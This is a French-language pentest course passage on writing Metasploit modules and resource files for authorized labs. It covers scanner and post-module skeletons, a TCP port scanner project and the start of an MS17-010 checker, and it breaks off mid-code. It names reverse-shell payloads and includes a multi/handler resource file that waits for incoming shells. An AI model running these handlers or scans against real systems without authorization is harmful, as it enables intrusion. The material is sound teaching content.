




# Metasploit — Scripting & Module Development

> **Module : Metasploit - Scripting**  
> **Objectif : apprendre à automatiser Metasploit et à créer ses propres modules Ruby dans un cadre légal, contrôlé et pédagogique.**  
> **Public visé : étudiant cybersécurité / pentest débutant-intermédiaire.**

---

## Table des matières

1. [Cadre, éthique et périmètre légal](#1-cadre-éthique-et-périmètre-légal)
2. [Pourquoi apprendre le scripting Metasploit ?](#2-pourquoi-apprendre-le-scripting-metasploit-)
3. [Rappel : ce qu’est Metasploit Framework](#3-rappel--ce-quest-metasploit-framework)
4. [Architecture de Metasploit](#4-architecture-de-metasploit)
5. [Les grandes familles de modules](#5-les-grandes-familles-de-modules)
6. [Environnement de travail sur Kali Linux](#6-environnement-de-travail-sur-kali-linux)
7. [Organisation recommandée du projet](#7-organisation-recommandée-du-projet)
8. [Ruby utile pour Metasploit](#8-ruby-utile-pour-metasploit)
9. [Automatiser Metasploit avec les resource files `.rc`](#9-automatiser-metasploit-avec-les-resource-files-rc)
10. [Créer un module Metasploit : structure mentale](#10-créer-un-module-metasploit--structure-mentale)
11. [Datastore, options et validation des paramètres](#11-datastore-options-et-validation-des-paramètres)
12. [Module auxiliary scanner : logique, structure et bonnes pratiques](#12-module-auxiliary-scanner--logique-structure-et-bonnes-pratiques)
13. [Projet 0 — Custom Port Scanner](#13-projet-0--custom-port-scanner)
14. [Méthode `check` et vulnérabilité MS17-010](#14-méthode-check-et-vulnérabilité-ms17-010)
15. [Projet 1 — Vulnerability Checker MS17-010](#15-projet-1--vulnerability-checker-ms17-010)
16. [Automatiser l’exécution d’un exploit et d’un payload](#16-automatiser-lexécution-dun-exploit-et-dun-payload)
17. [Projet 2 — Automated Exploit Launcher](#17-projet-2--automated-exploit-launcher)
18. [Post-exploitation : sessions, Meterpreter et collecte d’informations](#18-post-exploitation--sessions-meterpreter-et-collecte-dinformations)
19. [Projet 3 — Information Gathering Script](#19-projet-3--information-gathering-script)
20. [Payloads, msfvenom, encoders et limites de l’évasion AV](#20-payloads-msfvenom-encoders-et-limites-de-lévasion-av)
21. [Projet 4 — Custom Payload Generator](#21-projet-4--custom-payload-generator)
22. [Logging, reporting et stockage des résultats](#22-logging-reporting-et-stockage-des-résultats)
23. [Tests, debug et validation](#23-tests-debug-et-validation)
24. [README.md attendu à la racine du projet](#24-readmemd-attendu-à-la-racine-du-projet)
25. [Checklist finale pour valider le module](#25-checklist-finale-pour-valider-le-module)
26. [Glossaire](#26-glossaire)
27. [Sources et documentation utile](#27-sources-et-documentation-utile)

---

# 1. Cadre, éthique et périmètre légal

Metasploit est un framework de test d’intrusion. Il permet de scanner, vérifier, exploiter, automatiser et documenter des tests de sécurité. C’est un outil professionnel, mais aussi un outil à très fort potentiel d’abus si le cadre n’est pas strict.

Dans ce cours, tout ce qui est présenté doit être compris dans le cadre suivant :

- machine de laboratoire ;
- CTF ;
- VM volontairement vulnérable ;
- environnement Holberton / Kali contrôlé ;
- programme bug bounty explicitement autorisé ;
- mission avec autorisation écrite.

Ce cours **ne doit pas** être utilisé contre des systèmes publics, tiers, professionnels ou personnels sans autorisation explicite.

## Règle d’or

> Tu ne testes que ce que tu possèdes, ce qu’on t’a explicitement confié, ou ce qui est clairement dans un scope autorisé.

## Ce que tu dois savoir expliquer

À la fin du module, tu dois pouvoir expliquer :

- la différence entre utiliser Metasploit et écrire un module Metasploit ;
- pourquoi Metasploit est écrit principalement en Ruby ;
- ce qu’est un module auxiliary ;
- comment fonctionne un scanner Metasploit ;
- comment lire et écrire des options via le datastore ;
- comment automatiser des actions avec un resource file ;
- comment utiliser `check` pour vérifier une vulnérabilité sans exploitation destructive ;
- comment utiliser un module post-exploitation de manière contrôlée ;
- ce que sont un payload, un stager, un stage et un handler ;
- pourquoi l’encodage de payload n’est pas une solution magique d’évasion antivirus.

---

# 2. Pourquoi apprendre le scripting Metasploit ?

La plupart des débutants apprennent Metasploit de cette manière :

```text
msfconsole
search <vuln>
use <module>
set RHOSTS <target>
set LHOST <ip>
run
```

C’est utile, mais limité.

Un pentester plus avancé doit être capable de faire mieux :

- automatiser une procédure répétitive ;
- créer un scanner adapté à une cible ;
- vérifier une vulnérabilité précise ;
- modifier un module existant pour un lab ;
- écrire un module post-exploitation propre ;
- produire des résultats réutilisables dans la base Metasploit ;
- comprendre ce que fait réellement un module avant de l’exécuter.

## Différence entre opérateur et développeur Metasploit

| Niveau | Ce que tu fais | Limite |
|---|---|---|
| Utilisateur débutant | Tu lances des modules existants | Tu dépends de ce qui existe déjà |
| Utilisateur intermédiaire | Tu automatises avec `.rc`, `setg`, `jobs`, `sessions` | Tu adaptes peu la logique interne |
| Développeur de modules | Tu écris tes propres modules Ruby | Tu peux créer ton propre comportement |
| Chercheur sécurité | Tu transformes une découverte en module propre | Tu contribues au framework ou à ton équipe |

## Image mentale

Metasploit n’est pas seulement une “boîte à exploits”.

C’est plutôt :

```text
Framework
├── Console interactive
├── Base de données
├── Moteur de modules
├── Bibliothèques réseau
├── Payloads
├── Sessions
├── Handlers
├── Reporting
└── API Ruby
```

Quand tu écris un module, tu ne repars pas de zéro : tu utilises les briques déjà disponibles.

---

# 3. Rappel : ce qu’est Metasploit Framework

Metasploit Framework est une plateforme modulaire de test d’intrusion écrite majoritairement en Ruby. Elle fournit :

- une console interactive : `msfconsole` ;
- des modules d’exploitation ;
- des modules auxiliaires ;
- des modules post-exploitation ;
- des payloads ;
- des encoders ;
- des outils CLI comme `msfvenom` ;
- une base de données PostgreSQL pour stocker hosts, services, credentials, notes, loot ;
- une API interne Ruby.

## Commandes de base

```bash
msfconsole
```

Dans `msfconsole` :

```text
help
search type:auxiliary scanner
use auxiliary/scanner/http/title
show options
show advanced
show missing
set RHOSTS 192.168.56.10
run
back
exit
```

## Commandes utiles pour le développement

```text
reload_all
loadpath ~/.msf4/modules
info
show options
show advanced
show missing
run
check
setg
unsetg
sessions -l
jobs -l
services
hosts
notes
loot
```

## À retenir

Metasploit est un framework orienté modules. Un module est une unité de comportement : scanner, exploiter, générer un payload, collecter des informations, etc.

---

# 4. Architecture de Metasploit

## Arborescence typique sur Kali

Sur Kali, Metasploit est souvent installé ici :

```text
/usr/share/metasploit-framework/
```

Mais tu ne dois pas modifier directement ce dossier pour tes exercices. Pour tes modules personnels, utilise plutôt :

```text
~/.msf4/modules/
```

Exemple :

```text
~/.msf4/modules/
├── auxiliary/
│   └── scanner/
│       └── custom/
│           └── port_scanner.rb
├── post/
│   └── linux/
│       └── gather/
│           └── simple_sysinfo.rb
└── exploits/
    └── custom/
        └── lab_launcher.rb
```

## Pourquoi utiliser `~/.msf4/modules` ?

- Tu évites de casser l’installation système.
- Tu gardes tes modules personnels séparés.
- Tu peux versionner ton travail dans Git.
- Tu peux charger tes modules sans toucher aux modules officiels.

Dans `msfconsole` :

```text
loadpath ~/.msf4/modules
reload_all
search custom
```

## Cycle de développement d’un module



---

# 5. Les grandes familles de modules

## 5.1 Auxiliary modules

Un module auxiliary ne livre pas de payload. Il sert à :

- scanner ;
- énumérer ;
- vérifier une vulnérabilité ;
- collecter des informations ;
- lancer un serveur temporaire ;
- tester un service ;
- faire de l’analyse.

Exemples :

```text
auxiliary/scanner/http/title
auxiliary/scanner/smb/smb_version
auxiliary/scanner/smb/smb_ms17_010
auxiliary/scanner/ssh/ssh_version
```

Un auxiliary module est souvent plus “safe” qu’un exploit, car son objectif est de détecter ou d’énumérer plutôt que d’obtenir une session.

## 5.2 Exploit modules

Un exploit module exploite une vulnérabilité et peut exécuter un payload.

Exemple mental :

```text
Exploit = méthode pour déclencher la vulnérabilité
Payload = code/action exécuté après succès
Handler = composant qui reçoit ou gère la session
```

## 5.3 Payload modules

Un payload est ce qui est exécuté si l’exploitation réussit.

Exemples :

```text
windows/x64/meterpreter/reverse_tcp
linux/x64/shell_reverse_tcp
cmd/unix/reverse_bash
```

Types importants :

| Type | Description |
|---|---|
| Single | Payload complet en une seule pièce |
| Stager | Petit morceau qui établit la connexion |
| Stage | Partie plus grosse chargée après le stager |
| Staged payload | Stager + stage |
| Stageless payload | Tout est embarqué en une fois |

## 5.4 Post modules

Un post module est utilisé après l’obtention d’une session. Il sert à :

- collecter des informations système ;
- inventorier utilisateurs, interfaces, processus ;
- récupérer des preuves dans un lab ;
- automatiser des commandes post-exploitation ;
- stocker les résultats.

Exemples :

```text
post/windows/gather/enum_logged_on_users
post/linux/gather/checkvm
post/multi/gather/env
```

## 5.5 Encoders

Un encoder transforme les bytes d’un payload. Historiquement, cela a été utilisé pour contourner des contraintes techniques comme les bad characters (`\x00`, `\xff`, etc.).

Point important :

> Encoder un payload ne signifie pas “le rendre indétectable”. Les antivirus et EDR modernes ne se basent pas seulement sur une signature statique.

Dans ce cours, on traite les encoders comme une notion pédagogique et lab-only, pas comme une méthode d’évasion opérationnelle.

---

# 6. Environnement de travail sur Kali Linux

## 6.1 Vérifier l’installation

```bash
which msfconsole
msfconsole --version
which msfvenom
ruby --version
```

## 6.2 Démarrer la base Metasploit

```bash
sudo msfdb init
sudo msfdb start
msfconsole
```

Dans `msfconsole` :

```text
db_status
```

Tu veux voir une connexion PostgreSQL fonctionnelle.

## 6.3 Créer un workspace de lab

Dans `msfconsole` :

```text
workspace -a metasploit_scripting_lab
workspace
```

## 6.4 Préparer les dossiers de modules privés

```bash
mkdir -p ~/.msf4/modules/auxiliary/scanner/custom
mkdir -p ~/.msf4/modules/post/linux/gather
mkdir -p ~/Holberton/metasploit_scripting
cd ~/Holberton/metasploit_scripting
```

## 6.5 Charger tes modules privés

Dans `msfconsole` :

```text
loadpath ~/.msf4/modules
reload_all
search custom
```

## 6.6 Debug minimal

Depuis ton terminal :

```bash
ruby -c ton_module.rb
```

Dans `msfconsole` :

```text
setg LogLevel 3
reload_all
```

Logs possibles :

```bash
ls ~/.msf4/logs
tail -f ~/.msf4/logs/framework.log
```

---

# 7. Organisation recommandée du projet

Voici une structure propre pour ton dépôt :

```text
metasploit_scripting/
├── README.md
├── modules/
│   ├── auxiliary/
│   │   └── scanner/
│   │       └── custom_port_scanner.rb
│   └── post/
│       └── simple_info_gather.rb
├── scripts/
│   ├── exploit_launcher.rc
│   ├── info_gather.rc
│   └── generate_payload.rb
├── notes/
│   ├── commands.md
│   ├── tests.md
│   └── troubleshooting.md
└── evidence/
    ├── screenshots/
    └── logs/
```

## Pourquoi cette structure ?

- `modules/` : ton code Metasploit Ruby.
- `scripts/` : resource files `.rc` et scripts Ruby autonomes.
- `notes/` : observations, commandes, erreurs rencontrées.
- `evidence/` : preuves de test, captures, logs.

## Synchroniser vers `~/.msf4/modules`

Tu peux copier ton module manuellement :

```bash
cp modules/auxiliary/scanner/custom_port_scanner.rb ~/.msf4/modules/auxiliary/scanner/custom/
```

Ou créer un lien symbolique :

```bash
ln -s ~/Holberton/metasploit_scripting/modules/auxiliary/scanner/custom_port_scanner.rb ~/.msf4/modules/auxiliary/scanner/custom/custom_port_scanner.rb
```

---

# 8. Ruby utile pour Metasploit

Metasploit est écrit en Ruby, donc tu dois être à l’aise avec les bases.

## 8.1 Shebang pour script Ruby autonome

Pour un script Ruby autonome :

```ruby
#!/usr/bin/env ruby
```

Puis :

```bash
chmod +x script.rb
./script.rb
```

Pour un module Metasploit chargé dans `msfconsole`, le shebang n’est généralement pas nécessaire.

## 8.2 Variables

```ruby
host = "192.168.56.10"
port = 445
open = true
```

## 8.3 Tableaux

```ruby
ports = [21, 22, 80, 443, 445]

ports.each do |port|
  puts port
end
```

## 8.4 Hashes

```ruby
service = {
  "host" => "192.168.56.10",
  "port" => 445,
  "name" => "smb"
}

puts service["port"]
```

Dans Metasploit, les métadonnées du module sont aussi des hashes :

```ruby
'Name' => 'Custom TCP Port Scanner',
'Author' => ['Student'],
'License' => MSF_LICENSE
```

## 8.5 Méthodes

```ruby
def open_port?(host, port)
  # logique de test
end
```

## 8.6 Conditions

```ruby
if port == 445
  puts "SMB"
elsif port == 80
  puts "HTTP"
else
  puts "Unknown"
end
```

## 8.7 Gestion d’erreurs

```ruby
begin
  # code risqué
rescue StandardError => e
  puts "Erreur : #{e.message}"
ensure
  # nettoyage
end
```

Dans un module Metasploit, il faut éviter de laisser une erreur Ruby brute casser l’exécution. On préfère capturer l’erreur, afficher un message propre et continuer.

## 8.8 Interpolation

```ruby
host = "192.168.56.10"
port = 445
puts "Testing #{host}:#{port}"
```

## 8.9 Conventions Ruby

- indentation de deux espaces ;
- noms de méthodes en `snake_case` ;
- méthodes courtes ;
- pas de code inutilement compact ;
- pas de backticks shell quand une API Ruby existe ;
- validation des entrées utilisateur.

---

# 9. Automatiser Metasploit avec les resource files `.rc`

Un resource file est un fichier texte contenant des commandes `msfconsole` exécutées automatiquement.

Exemple :

```text
workspace -a lab
use auxiliary/scanner/http/title
set RHOSTS 192.168.56.10
set RPORT 80
run
```

Tu l’exécutes avec :

```bash
msfconsole -r scan_http.rc
```

Ou depuis `msfconsole` :

```text
resource scan_http.rc
```

## 9.1 À quoi ça sert ?

- rejouer une procédure ;
- gagner du temps ;
- éviter d’oublier une option ;
- documenter un workflow ;
- préparer une démo ;
- lancer un handler automatiquement ;
- enchaîner scan puis exploitation en lab.

## 9.2 Exemple de resource file pour un scan

```text
workspace -a metasploit_scripting_lab
db_nmap -sV -p 22,80,445 RHOST
services
```

Ici `RHOST` est un placeholder pédagogique. Dans un vrai fichier, tu mettras l’IP de ta VM cible autorisée.

## 9.3 Exemple de resource file pour un handler

```text
use exploit/multi/handler
set PAYLOAD linux/x64/shell_reverse_tcp
set LHOST LHOST
set LPORT LPORT
run -j
```

Ce type de fichier est utile en lab quand tu veux que Metasploit soit prêt à recevoir une session.

## 9.4 `makerc`

Après avoir tapé une série de commandes dans `msfconsole`, tu peux générer un fichier `.rc` :

```text
makerc replay.rc
```

Cela enregistre l’historique de commandes Metasploit, ce qui est très utile pour documenter ton travail.

## 9.5 Resource file vs module Ruby

| Besoin | Solution |
|---|---|
| Rejouer des commandes Metasploit simples | `.rc` |
| Ajouter une logique conditionnelle complexe | Ruby |
| Scanner plusieurs hôtes proprement | Auxiliary module |
| Collecter des infos depuis une session | Post module |
| Automatiser une démo | `.rc` + modules existants |

---

# 10. Créer un module Metasploit : structure mentale

Un module Metasploit Ruby est une classe Ruby qui hérite d’une classe Metasploit.

## 10.1 Squelette minimal auxiliary

```ruby
##
# This module requires Metasploit: https://metasploit.com/download
##

class MetasploitModule < Msf::Auxiliary
  def initialize(info = {})
    super(
      update_info(
        info,
        'Name' => 'Custom Module Name',
        'Description' => %q{
          Description claire du module.
        },
        'Author' => ['Student'],
        'License' => MSF_LICENSE
      )
    )
  end

  def run
    print_status('Module running')
  end
end
```

## 10.2 Squelette auxiliary scanner

```ruby
class MetasploitModule < Msf::Auxiliary
  include Msf::Auxiliary::Scanner

  def initialize(info = {})
    super(
      update_info(
        info,
        'Name' => 'Custom Scanner',
        'Description' => %q{
          Scanner pédagogique.
        },
        'Author' => ['Student'],
        'License' => MSF_LICENSE
      )
    )
  end

  def run_host(ip)
    print_status("Scanning #{ip}")
  end
end
```

## 10.3 Pourquoi `run_host` ?

Avec `Msf::Auxiliary::Scanner`, Metasploit gère :

- `RHOSTS` ;
- plusieurs hôtes ;
- `THREADS` ;
- la boucle de scan ;
- l’appel à `run_host(ip)` pour chaque cible.

Tu n’as donc pas à coder toi-même toute la boucle sur les cibles.

## 10.4 Squelette post module

```ruby
class MetasploitModule < Msf::Post
  def initialize(info = {})
    super(
      update_info(
        info,
        'Name' => 'Simple Post Module',
        'Description' => %q{
          Collecte contrôlée d'informations depuis une session autorisée.
        },
        'Author' => ['Student'],
        'License' => MSF_LICENSE
      )
    )
  end

  def run
    print_status("Session active: #{session.sid}")
  end
end
```

---

# 11. Datastore, options et validation des paramètres

Le datastore est le système d’options de Metasploit.

Quand tu fais :

```text
set RHOSTS 192.168.56.10
set RPORT 445
```

Tu remplis des valeurs accessibles dans le code Ruby via :

```ruby
datastore['RHOSTS']
datastore['RPORT']
```

## 11.1 Options communes

| Option | Rôle |
|---|---|
| `RHOST` | Une cible unique |
| `RHOSTS` | Une ou plusieurs cibles |
| `RPORT` | Port distant |
| `LHOST` | Adresse locale d’écoute |
| `LPORT` | Port local d’écoute |
| `TARGETURI` | Chemin HTTP de base |
| `THREADS` | Nombre de threads pour scanner |
| `SSL` | Utilisation TLS/SSL |

## 11.2 Déclarer des options

Exemple :

```ruby
register_options(
  [
    Opt::RPORT(80),
    OptString.new('PORTS', [true, 'Comma-separated list of ports', '22,80,443']),
    OptInt.new('TIMEOUT', [true, 'Connection timeout in seconds', 2])
  ]
)
```

## 11.3 Lire une option

```ruby
ports = datastore['PORTS']
timeout = datastore['TIMEOUT']
```

## 11.4 Valider une option

Exemple mental :

```ruby
raw_ports = datastore['PORTS']

if raw_ports.nil? || raw_ports.empty?
  fail_with(Failure::BadConfig, 'PORTS cannot be empty')
end
```

## 11.5 Attention à `fail_with`

`fail_with` arrête le module avec une erreur contrôlée. C’est utile si la configuration est mauvaise.

Mais dans une méthode `check`, il vaut mieux éviter de lever une exception non gérée. Une méthode `check` doit retourner un `CheckCode`.

## 11.6 `set` vs `setg`

| Commande | Portée |
|---|---|
| `set` | Option du module actif |
| `setg` | Option globale pour plusieurs modules |
| `unset` | Supprime une option locale |
| `unsetg` | Supprime une option globale |

Exemple :

```text
setg RHOSTS 192.168.56.10
setg LHOST 192.168.56.5
```

Pratique en lab, mais attention : un `setg` oublié peut polluer tes tests suivants.

---

# 12. Module auxiliary scanner : logique, structure et bonnes pratiques

Un scanner Metasploit doit être :

- clair ;
- non destructif ;
- robuste ;
- capable de gérer les timeouts ;
- capable de gérer plusieurs cibles ;
- capable de rapporter les services découverts ;
- silencieux si demandé, détaillé en verbose.

## 12.1 Méthodes d’affichage

| Méthode | Usage |
|---|---|
| `print_status` | Information normale |
| `print_good` | Résultat positif |
| `print_error` | Erreur |
| `print_warning` | Avertissement |
| `vprint_status` | Information uniquement en mode verbose |
| `vprint_error` | Erreur détaillée uniquement en verbose |

Exemple :

```ruby
print_status("Scanning #{ip}")
print_good("#{ip}:#{port} is open")
vprint_status("Timeout on #{ip}:#{port}")
```

## 12.2 Gestion des erreurs réseau

Un scanner réseau va rencontrer :

- ports fermés ;
- hôtes down ;
- timeouts ;
- filtrage firewall ;
- resets TCP ;
- réponses partielles.

Tu dois éviter qu’un seul échec arrête tout le scan.

Pseudo-logique :

```text
pour chaque port:
    tenter connexion
    si connexion réussie:
        afficher open
        enregistrer service
    sinon:
        afficher détail uniquement en verbose
    fermer socket
```

## 12.3 Reporting de service

Quand tu découvres un port ouvert, tu peux l’enregistrer dans la base Metasploit :

```ruby
report_service(
  host: ip,
  port: port,
  proto: 'tcp',
  name: 'unknown'
)
```

Ensuite dans `msfconsole` :

```text
services
```

## 12.4 Pourquoi reporter ?

Parce qu’un résultat uniquement affiché dans le terminal est fragile. Si tu fermes ton terminal, tu perds l’info.

La base Metasploit permet de garder :

- hosts ;
- services ;
- notes ;
- vulnérabilités ;
- loot ;
- credentials.

---

# 13. Projet 0 — Custom Port Scanner

## Objectif

Créer un module auxiliary scanner capable de scanner une liste de ports TCP et d’identifier ceux qui sont ouverts.

## Fichier attendu possible

```text
modules/auxiliary/scanner/custom_port_scanner.rb
```

ou dans Metasploit :

```text
~/.msf4/modules/auxiliary/scanner/custom/custom_port_scanner.rb
```

## Fonctionnalités attendues

- accepter une cible via `RHOSTS` ;
- accepter une liste de ports via une option `PORTS` ;
- gérer un timeout ;
- tester chaque port ;
- afficher les ports ouverts ;
- idéalement enregistrer les services avec `report_service` ;
- ne pas planter sur un port fermé ;
- ne pas scanner Internet.

## Design du module



## Parsing des ports

L’utilisateur pourrait entrer :

```text
22,80,443,445
```

Tu dois transformer ça en tableau :

```ruby
ports = datastore['PORTS'].split(',').map(&:strip).map(&:to_i)
```

Puis filtrer :

```ruby
ports = ports.select { |port| port.between?(1, 65_535) }
```

## Points pédagogiques importants

### 1. Pourquoi `RHOSTS` et pas `RHOST` ?

Parce que le mixin scanner travaille sur une ou plusieurs cibles.

### 2. Pourquoi une option `PORTS` ?

Parce qu’un scanner custom doit être configurable. Hardcoder `80,443,445` limite la réutilisation.

### 3. Pourquoi `THREADS` ?

Parce que le mixin scanner permet le multi-thread entre hôtes. Pour un exercice simple, tu peux garder `THREADS` par défaut.

### 4. Pourquoi gérer le timeout ?

Sans timeout, un scan peut rester bloqué longtemps sur un port filtré.

## Squelette pédagogique

Ce squelette montre la structure, mais tu dois adapter et compléter proprement selon ton exercice :

```ruby
class MetasploitModule < Msf::Auxiliary
  include Msf::Auxiliary::Scanner

  def initialize(info = {})
    super(
      update_info(
        info,
        'Name' => 'Custom TCP Port Scanner',
        'Description' => %q{
          Scans selected TCP ports on authorized lab targets and reports open services.
        },
        'Author' => ['Student'],
        'License' => MSF_LICENSE
      )
    )

    register_options(
      [
        OptString.new('PORTS', [true, 'Comma-separated TCP ports', '22,80,443,445']),
        OptInt.new('TIMEOUT', [true, 'TCP connection timeout in seconds', 2])
      ]
    )
  end

  def parse_ports
    datastore['PORTS']
      .split(',')
      .map(&:strip)
      .map(&:to_i)
      .select { |port| port.between?(1, 65_535) }
      .uniq
  end

  def run_host(ip)
    parse_ports.each do |port|
      # 1. tenter une connexion TCP
      # 2. si succès : print_good + report_service
      # 3. si échec : vprint_status
      # 4. toujours fermer proprement la socket
    end
  end
end
```

## Commandes de test

```text
msfconsole
loadpath ~/.msf4/modules
reload_all
search custom_tcp
use auxiliary/scanner/custom/custom_port_scanner
show options
set RHOSTS 192.168.56.10
set PORTS 22,80,443,445
set THREADS 4
run
services
```

## Résultat attendu

```text
[+] 192.168.56.10:22 open
[+] 192.168.56.10:80 open
[*] Scanned 1 of 1 hosts
```

## Erreurs fréquentes

| Erreur | Cause probable |
|---|---|
| Module introuvable | Mauvais chemin ou `reload_all` oublié |
| `uninitialized constant` | Classe/mixin mal écrit |
| `undefined method datastore` | Code hors classe Metasploit |
| Tous les ports fermés | Mauvaise IP, VM down, firewall |
| Scan bloqué | Timeout absent ou trop long |

---

# 14. Méthode `check` et vulnérabilité MS17-010

## 14.1 Qu’est-ce que MS17-010 ?

MS17-010 est un bulletin de sécurité Microsoft publié en 2017 pour corriger plusieurs vulnérabilités SMBv1. La plus connue est associée à EternalBlue.

Dans un contexte pédagogique, tu dois comprendre :

- SMB écoute souvent sur le port TCP 445 ;
- SMBv1 est ancien et dangereux ;
- une machine vulnérable peut être détectée avant exploitation ;
- un checker sérieux cherche à identifier l’état de vulnérabilité sans casser la cible.

## 14.2 Pourquoi une méthode `check` ?

La méthode `check` permet de vérifier l’état d’une cible avant d’exécuter une action plus agressive.

Elle doit retourner un code Metasploit.

Exemples :

```ruby
CheckCode::Safe
CheckCode::Detected
CheckCode::Appears
CheckCode::Vulnerable
CheckCode::Unknown
```

## 14.3 Différence entre les codes

| Code | Signification |
|---|---|
| `Safe` | La cible semble non vulnérable |
| `Detected` | Le service est présent, mais état vulnérable non confirmé |
| `Appears` | Indices passifs de vulnérabilité |
| `Vulnerable` | Preuve forte obtenue |
| `Unknown` | Impossible de conclure |
| `Unsupported` | Le module ne supporte pas `check` |

## 14.4 Bonne pratique

Un `check` ne doit pas “pop une shell”.

Il doit limiter l’impact :

```text
Identifier service → collecter preuve minimale → retourner CheckCode
```

## 14.5 Ce qu’il faut éviter

- exploiter directement ;
- provoquer un crash ;
- scanner hors scope ;
- considérer “port 445 ouvert” comme preuve suffisante ;
- afficher des conclusions vulnérables sans preuve ;
- mélanger détection et exploitation dans le même code si ce n’est pas demandé.

---

# 15. Projet 1 — Vulnerability Checker MS17-010

## Objectif

Écrire un script/module Metasploit capable de vérifier si une cible de lab est potentiellement vulnérable à MS17-010.

## Approche recommandée

Pour un projet pédagogique, tu peux raisonner en trois niveaux :

| Niveau | Ce que tu vérifies | Force de preuve |
|---|---|---|
| 1 | Port 445 ouvert | Faible |
| 2 | SMB accessible et version/protocole observé | Moyenne |
| 3 | Check SMB spécifique MS17-010 | Forte |

## Option A — Automatiser le module officiel en resource file

Pour apprendre le workflow :

```text
workspace -a metasploit_scripting_lab
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS RHOST
set THREADS 4
run
```

Exécution :

```bash
msfconsole -r ms17_010_check.rc
```

## Option B — Écrire un module wrapper pédagogique

Ton module custom peut :

1. vérifier que le port 445 répond ;
2. lancer une logique de check contrôlée ;
3. retourner un `CheckCode`.

Pseudo-structure :

```ruby
class MetasploitModule < Msf::Auxiliary
  include Msf::Auxiliary::Scanner

  def initialize(info = {})
    super(
      update_info(
        info,
        'Name' => 'Custom MS17-010 Checker',
        'Description' => %q{
          Educational checker for MS17-010 state on authorized lab targets.
        },
        'Author' => ['Student'],
        'License' => MSF_LICENSE
      )
    )

    register_options(
      [
        Opt::RPORT(445),
        OptInt.new('TIMEOUT', [true, 'Connection timeout', 3])
